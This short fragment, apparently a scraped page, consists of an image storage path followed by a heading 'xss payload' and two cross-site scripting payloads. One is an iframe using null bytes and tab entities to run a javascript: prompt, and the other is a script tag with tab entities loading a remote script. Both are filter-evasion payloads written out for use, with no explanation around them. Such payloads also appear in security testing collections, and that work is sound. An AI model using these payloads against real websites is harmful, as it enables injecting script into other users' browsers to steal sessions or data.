 # xss payload

```
<iframe %00 src="&Tab;javascript:prompt(9)&Tab;"%00>
<script/&Tab; src='https://github.com' /&Tab;></script>

```
